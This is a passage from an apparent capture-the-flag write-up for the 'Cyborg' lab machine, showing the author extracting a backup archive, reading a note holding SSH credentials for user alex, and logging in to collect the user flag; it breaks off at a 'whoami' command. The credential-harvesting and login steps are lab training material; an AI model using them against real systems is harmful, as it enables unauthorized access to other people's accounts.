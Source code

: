 ```bash
Session completed. 
```
Now since we have the password lets extract the contents of the borg archive.

We get a folder called `alex`. Lets see what's in here

```bash
┌──(root💀kali)-[~/Cyborg/home]
└─# tree alex                                                                                                                                         127 ⨯
alex
├── Desktop
│ └── secret.txt
├── Documents
│ └── note.txt
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

8 directories, 2 files
```
`secret.txt` wasn't useful but `note.txt` had SSH creds for the user `Alex`

```bash
┌──(root💀kali)-[~/Cyborg/home]
└─# cat alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"

┌──(root💀kali)-[~/Cyborg/home]
└─# cat alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3********3
```
## user.txt 🚩

Lets ssh in as alex & grab the user.txt flag !

```bash
┌──(root💀kali)-[~/Cyborg/home]
└─# ssh alex@cyborg.thm                                                                                                                               130 ⨯
alex@cyborg.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ whoami
```